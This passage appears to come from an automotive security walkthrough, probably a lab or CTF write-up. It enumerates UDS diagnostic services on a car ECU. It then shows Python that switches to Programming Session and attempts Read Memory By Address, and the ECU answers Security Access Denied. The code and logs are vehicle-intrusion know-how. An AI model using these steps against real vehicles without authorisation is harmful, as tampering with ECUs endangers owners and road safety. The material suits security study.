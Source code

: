 After running the script, we receive a list of available UDS services detected on the ECU

```bash
...
INFO - Available Services: [16, 34, 35, 39]
```

These correspond to the following service IDs:

```text
0x10 – Diagnostic Session Control
0x22 – Read Data By Identifier
0x23 – Read Memory By Address
0x27 – Security Access
```

## Step 5: Attempt to Read Memory

Now that we’ve confirmed that service 0x23 (Read Memory By Address) is available in the `Programming Session`, we can attempt to use it after switching to that session (0x02).

```python
payload = bytearray([0x2, 0x10, 0x2])
logger.info(f"Sending payload: {' '.join(map(lambda x: f'{x:02x}', payload))}")
sock.send(payload)

response = bytearray(sock.recv(8))
logger.info(f"Response: {' '.join(map(lambda x: f'{x:02x}', response))} (Changing to Programming Session)")


payload = bytearray([0x6, 0x23, 0x22, 0x10, 0x00, 0x00, 0x01])
logger.info(f"Sending payload: {' '.join(map(lambda x: f'{x:02x}', payload))}")
sock.send(payload)

response = bytearray(sock.recv(8))
logger.info(f"Response: {' '.join(map(lambda x: f'{x:02x}', response))}")
```

This result on

```bash
INFO - Sending payload: 02 10 02
INFO - Response: 02 50 02 (Changing to Programming Session)
INFO - Sending payload: 06 23 22 10 00 00 01
INFO - Response: 03 7f 23 33
```

This time, we received a different response compared to our previous memory read attempt. Although it's still a negative response, the NRC (0x33) indicates a new issue.

Looking up the code 0x33, we find the meaning is:

- 0x33 – Security Access Denied

This suggests that the ECU requires a valid security unlock sequence before granting access to memory read operations within this session.
